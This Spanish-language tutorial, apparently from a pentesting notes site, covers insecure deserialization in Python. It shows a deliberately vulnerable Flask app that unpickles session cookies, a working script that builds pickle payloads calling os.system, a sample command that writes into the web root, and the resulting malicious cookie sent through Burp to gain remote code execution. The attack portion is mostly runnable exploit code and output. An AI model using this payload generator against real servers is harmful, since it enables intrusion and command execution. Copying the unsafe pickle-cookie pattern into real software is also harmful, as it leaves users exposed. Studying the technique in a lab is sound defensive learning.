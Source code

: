 ```yaml
---
icon: python
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Deserialización Insegura Python

## Pagina Vulnerable Deserialización Insegura en Python

Si nosotros por ejemplo tenemos este codigo de `python` como una pagina por ejemplo:

> app.py

```python
import pickle
import base64
from flask import Flask, request, make_response, render_template, redirect, url_for

app = Flask(__name__)

# Base de datos de usuarios (simulada)
users = {
    "admin": "admin123",
    "user1": "password1",
    "user2": "password2"
}

# Clase del usuario (con deserialización insegura)
class User:
    def __init__(self, username, role):
        self.username = username
        self.role = role

    def __str__(self):
        return f"{self.username} ({self.role})"

@app.route("/")
def index():
    # Obtener la cookie
    session_cookie = request.cookies.get("session")

    if session_cookie:
        try:
            # Deserializar la cookie (VULNERABILIDAD)
            user = pickle.loads(base64.b64decode(session_cookie))
        except Exception as e:
            user = f"Error deserializando: {e}"
    else:
        user = "Invitado"

    return render_template("index.html", user=user)

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        if username in users and users[username] == password:
            # Crear el objeto de usuario
            user = User(username, "admin" if username == "admin" else "user")

            # Serializar el objeto inseguramente con pickle
            session_data = base64.b64encode(pickle.dumps(user)).decode()

            # Crear la cookie con la sesión serializada
            response = make_response(redirect(url_for("index")))
            response.set_cookie("session", session_data)

            return response
        else:
            return "Credenciales inválidas", 403

    return render_template("login.html")

if __name__ == "__main__":
    app.run(debug=True)
```

Vemos que no valida la entrada que se serializa y la `deserializa` lo que venga de forma insegura, ya que no tiene ninguna medida de seguridad, si entramos en la pagina veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

El usuario por defecto sera el siguiente:

```
admin:admin123
```

Ingresamos las credenciales y abriremos `BurpSuite` para recargar la pagina con la sesion iniciada del usuario user y veremos lo siguiente en la `peticion` con `BurpSuite`:

> Peticion de `BurpSuite`

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVOgAAAAAAAACMA2FwcJSMBFVzZXKUk5QpgZR9lCiMCHVzZXJuYW1llIwFYWRtaW6UjARyb2xllIwFYWRtaW6UdWIu
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que la `serializacion` esta en `session=` por lo que tendremos que reemplazar su contenido, por otro codigo serializado con el comando que queramos ejecutar.

## Generar Payload Serializado en Base64

Nos crearemos un script en `python3` para generar codigos `serializados`:

> exploitSerial.py

```python
import pickle
import base64
import os
import argparse

class RCE:
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        return (os.system, (self.command,))

def generate_payload(command):
    """Genera una cookie maliciosa con el comando proporcionado."""
    try:
        payload = base64.b64encode(pickle.dumps(RCE(command))).decode()
        print(f"[+] Payload generado con el comando: {command}")
        print(f"[+] Cookie maliciosa: {payload}")
    except Exception as e:
        print(f"[!] Error generando el payload: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Generador de cookies maliciosas con RCE en Flask")
    parser.add_argument("command", help="Comando a ejecutar en el servidor víctima")

    args = parser.parse_args()
    generate_payload(args.command)
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
python3 exploitSerial.py 'touch /var/www/html/text.txt | whoami > /var/www/html/text.txt'
```

Info:

```
[+] Payload generado con el comando: touch /var/www/html/text.txt | whoami > /var/www/html/text.txt
[+] Cookie maliciosa: gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
```

## Enviar Payload al servidor

Ahora este resultado tendremos que pegarlo en la peticion donde `session=` quedando de la siguiente forma:

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Ahora si enviamos la `peticion` veremos lo siguiente en la pagina:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que algo ha sido modificado, por lo que podemos deducir que si ha funcionado correctamente.

Vamos a irnos directamente a la `IP` para ver si el archivo se subio de forma correcta:

```
URL = http://<IP>/text.txt
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, por lo que podremos generar `payloads` y ejecutar codigo de forma remota.
